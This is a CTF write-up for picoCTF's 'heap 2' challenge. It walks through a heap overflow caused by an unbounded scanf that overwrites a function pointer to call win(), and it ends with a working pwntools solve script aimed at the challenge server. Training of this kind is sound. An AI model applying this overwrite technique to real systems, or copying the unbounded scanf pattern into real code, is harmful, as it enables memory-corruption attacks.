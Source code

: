 # heap 2

The goal of this challenge from [picoCTF](https://play.picoctf.org/practice/challenge/435) is to overwrite a function pointer.

Running the binnary, we get this:

```
I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x14676b0  ->   pico
+-------------+-----------+
[*]   0x14676d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 4
[1]    10086 segmentation fault (core dumped)  ./chall
```

When we try to get the flag, the program crash. Let's look at the source code to see why.

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

```c
void check_win() { ((void (*)())*(int*)x)(); }
```

We can see that the `check_win` basically call the function stored at the `x` adress. So, to retrieve the flag we will need to change the value of `x`with the adress of the `win` function.

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

We can see that the `write_buffer` function use `scanf` so we can easily overide `x`.


# Exploitation

First we need the adress of the `win` function.
We can retrieve it using objdump:

```
❯ objdump -D chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```

Looking at the heap, we can see that the two adresses are separed by 32 bytes so we will need to fills 32 bytes before overwriting `x`.

```
+-------------+-----------+
[*]   0x218c6b0  ->   pico
+-------------+-----------+
[*]   0x218c6d0  ->   bico
```

# Solve

```py
from pwn import *

payload = b'A'*32 + p64(0x00000000004011a0)

r = remote('mimas.picoctf.net', 53506)

r.recvuntil(b"Enter your choice:")
r.sendline(b'2')
r.recvuntil(b"Data for buffer:")
r.sendline(payload)

r.recvuntil(b"Enter your choice:")
r.sendline(b'4')
print(r.recvall().decode())
```